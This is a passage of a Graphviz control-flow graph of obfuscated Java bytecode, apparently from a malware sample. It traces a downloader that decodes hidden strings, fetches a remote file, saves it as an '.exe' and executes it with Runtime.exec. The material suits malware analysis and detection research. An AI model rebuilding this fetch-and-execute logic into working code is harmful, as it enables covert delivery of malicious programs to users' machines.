    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"VxMDACXUy\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"VxMDACXUy\"";
    "push \"VxMDACXUy\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 20";
    "push 20"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 11";
    "push 11"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r2"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r5"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r $r238"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r238";
    "load.r $r238"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "staticinvoke <KLHGdf8wighfuidfiH: java.lang.String LKHJdfeiuynj3frg(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"staticinvoke <KLHGdf8wighfuidfiH: java.lang.String LKHJdfeiuynj3frg(java.lang.String,java.lang.String)>";
    "push \"-_-\""
    "staticinvoke <KLHGdf8wighfuidfiH: java.lang.String LKHJdfeiuynj3frg(java.lang.String,java.lang.String)>"->"push \"-_-\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \"-_-\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 2";
    "push 2"->"arrayread.r";
    "push \"G\""
    "arrayread.r"->"push \"G\"";
    "ifcmpeq.r goto return"
    "push \"G\""->"ifcmpeq.r goto return";
    "push null"
    "ifcmpeq.r goto return"->"push null";
    "push null"->"store.r r5";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r5"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r2";
    "store.r r2"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r r1";
    "load.r r1"->"push 9";
    "push 9"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 21";
    "push 21"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r1";
    "new java.net.URL"
    "store.r r1"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r $r238";
    "store.r $r238"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"load.r r5";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "load.r r5"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"->"store.r $r238";
    "new java.io.FileOutputStream"
    "store.r $r238"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r r5";
    "store.r r5"->"load.r r5";
    "new java.lang.StringBuilder"
    "load.r r5"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"load.r r5";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"
    "load.r r5"->"virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"->"load.r $r238";
    "push 0L"
    "load.r $r238"->"push 0L";
    "push 5242880L"
    "push 0L"->"push 5242880L";
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"
    "push 5242880L"->"virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>";
    "pop"
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"->"pop";
    "pop"->"load.r r5";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r r5"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r $r238";
    "interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0"
    "load.r $r238"->"interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0";
    "interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0"->"load.r r2";
    "load.r r2"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"store.r r5";
    "goto load.r r5"
    "store.r r5"->"goto load.r r5";
}
